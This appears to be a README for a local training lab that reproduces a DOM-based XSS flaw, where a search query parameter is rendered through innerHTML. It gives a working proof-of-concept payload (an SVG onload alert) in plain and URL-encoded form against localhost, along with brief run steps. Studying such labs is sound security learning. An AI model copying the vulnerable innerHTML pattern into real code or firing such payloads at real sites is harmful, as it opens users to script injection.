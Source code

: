 # DOM XSS in innerHTML sink using source location.search

## SYNOPSIS
- Created a static page with a search field
- ```query``` variable gets the value of the key query srting named ```search```
- Renders the value of the ```search``` key if it contains a html element 

## PAYLOAD
- Plaintext ``` http://localhost:8081/?search=<div><svg onload=alert(1)></div>```
- URL encoded ```http://localhost:8081/?search=%3Cdiv%3E%3Csvg%20onload=alert(1)%3E%3C/div%3E```

## How to:
- Run build_docker
- Use the payload above
- You should see an alert window

### NOTE
- Tested on both Safari and Chrome
- Only works on CHROME

#### Reference
DOM XSS in innerHTML sink using source location.search
https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-innerhtml-sink
